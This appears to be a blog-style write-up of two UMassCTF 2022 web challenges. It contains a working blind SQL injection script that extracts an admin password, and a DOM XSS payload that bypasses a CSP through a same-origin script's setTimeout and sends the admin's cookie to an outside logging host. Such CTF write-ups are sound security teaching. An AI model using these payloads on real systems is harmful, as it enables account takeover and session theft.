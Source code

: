 ```yaml
---
title: UMassCTF 2022
author: HoangND
date: 2022-04-03 00:00:00 +0700
categories: [Writeups, UmassCTF 2022]
tags: [sqli, dom xss]
---
```


I haven't release any CTF writeups for a long time. Today i done 2 web challenge in UmassCTF so i decided writing something.

## Venting
![image](https://user-images.githubusercontent.com/61985236/161438032-f27b69b3-95c2-4fb2-9edf-2c390c2dc73b.png)
After tried web features, the proxy history showed me 1 interest endpoint.
![image](https://user-images.githubusercontent.com/61985236/161438156-c058349d-729f-497d-936e-1cde76e9243b.png)
Just change admin=True and we will get admin login page. Trying put ' in an textbox give me that this is sql injection challenge.

I tried dump admin's password by the following script and get the flag.
```python
import requests

passwd = ''
    
for i in range(36):
    for x in range(127, 31, -1):
        c = chr(x)
        basepl = {
            "user": "admin",
            "pass": "1' or (SELECT hex(substr(password,{},1)) FROM users WHERE+username='admin') > hex('{}') and 'a'='a".format(i+1, c)
        }
        res = requests.post(
            'http://34.148.103.218:4446/fff5bf676ba8796f0c51033403b35311/login', data=basepl, verify=False)
        # print(c+'  :  '+str(len(res.text)))
        if len(res.text) == 113:
            passwd += chr(x+1)
            break

    print(passwd)

```


## Umassdining
![image](https://user-images.githubusercontent.com/61985236/161434067-5c5d653a-9c04-43e4-810d-71f0c92c829d.png)
The source code is given in the challenge's description but I checked web features first. The web navigation shows us 3 options: Home, Register, Join. Register is basically for registration, after fill the form we got the message 'We got your request and will read it shortly!'. Join navigation is maybe administrator feature because the message 'You're not allowed here!' appeared. Next we audit the source code. This web has the following 3 main endpoint

```python
@app.route("/register",methods = ['GET','POST'])
def get_register():
    if(request.method=='GET'):
        response = make_response(render_template('register.html'))
        add_resp_headers(response);
        if(check_for_cookie()==False):
            response.set_cookie("auth","-1",secure=True,samesite=None)
        return response
    elif(request.method=='POST'): 
        if(active_count()<10):
            data = request.form.to_dict()
            thread = Thread(target=bot.checkEssay,kwargs={'data':data})
            thread.start()
            return "We got your request and will read it shortly!",200
        else:
            return "We are busy right now, try again in a second",200

@app.route("/review/essay",methods = ['GET','POST'])
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200

@app.route("/join",methods = ['GET'])
def get_play():
    if(request.cookies.get("auth")==admin_cookie):
        return "TEST{not_the_real_flag}",200
    return "You're not allowed here!",403
```

Endpoint /join checks auth cookie and only returns flag if it is admin cookie. I need to get the admin token by somehow. /register forwards request data to bot.checkEssay

```python
def checkEssay(data):
    opts = Options()
    opts.add_argument("--headless")
    driver = Firefox(executable_path='/usr/bin/geckodriver',options=opts)
    driver.set_window_size(320, 240)
    driver.set_page_load_timeout(5)
    driver.get('http://127.0.0.1:8000/')
    driver.add_cookie({"name":"auth","value":admin_cookie})
    driver.get('http://127.0.0.1:8000/review/essay?email={a}&essay={b}'.format(a=data['email'],b=data['essay']))    
    time.sleep(3)
    driver.quit()
```

The above section takes data from register endpoint, add admin's cookie to cookie and make request to the last of 3 endpoints - /review/essay, maybe i could leak the cookie from this. Look /review/essay handler

```python
def reviewEssay():
    essay = {"email":request.args.get("name"),"essay":request.args.get("essay")}
    response = make_response(render_template('essay_checker.html',essay=essay))
    add_resp_headers(response)
    if(request.remote_addr != '127.0.0.1'):
        return "Sorry pal you\'re not admin"
    try:
        return response
    except:
        return 'no essays to read',200
```

Check the essay_checker template returned by the above handler

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Essay Review</title>
</head>
<body>
    <h1> 
        Essay Review Panel
    </h1><br>
    <div>
        <main>
            Essay<br> 
            {{essay.essay|safe}}<br>
            Author<br>
            {{essay.email}}<br>
        </main>
    </div>
</body>
</html>
```

The jinja2's safe filter is used in essay property of essay object. The safe filter basically disables html-escape in the expression passed through it while rendering html page. It's maybe vulnerable to XSS exploit and i can make outbound request to get admin's cookie. I tried some basic payload but it didn't work, my outbound server didn't get any requests. The reason is the following

![image](https://user-images.githubusercontent.com/61985236/161436404-6ad54892-f973-4b15-8e6a-f7b945b99f17.png)

```python
def add_resp_headers(response):
    response.headers['Content-Security-Policy']= "default-src 'self';script-src 'self' 'unsafe-eval'"
```

The above section adds CSP header to response that restrict browser can only load resource from the current origin. It literally means all directly payloads from our essay param won't work. For more information about CSP, you can read [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy). I checked static folder and expected there was any usefull javascript file in it. And i saw things.js

```javascript
var iloveumass = document.getElementById("debug").getAttribute("data-iloveumass");
function say_something(words)
{
    setTimeout(`console.log('${words}')`,500)
}
document.addEventListener("DOMContentLoaded", function() {
    say_something(iloveumass)
});
```

This script gets the html element with id 'debug', takes 'data-iloveumass' attribute from it and passes it to vulnerable setTimeout function call. We can manipulate this file to bypass CSP protection. Final payload is the following

```html
<script id='debug' src="/static/js/thing.js" data-iloveumass="aaa');eval(document.location='http://hoangnd.free.beeceptor.com?cookie='%2bdocument.cookie);console.log('aaa"></script>
```

Put it in essay in register form, and an request will be made to your server.

![image](https://user-images.githubusercontent.com/61985236/161437862-27d1340d-9516-4ecc-b6e2-27f02e629e92.png)

Add admin's cookie to /join endpoint and get flag.




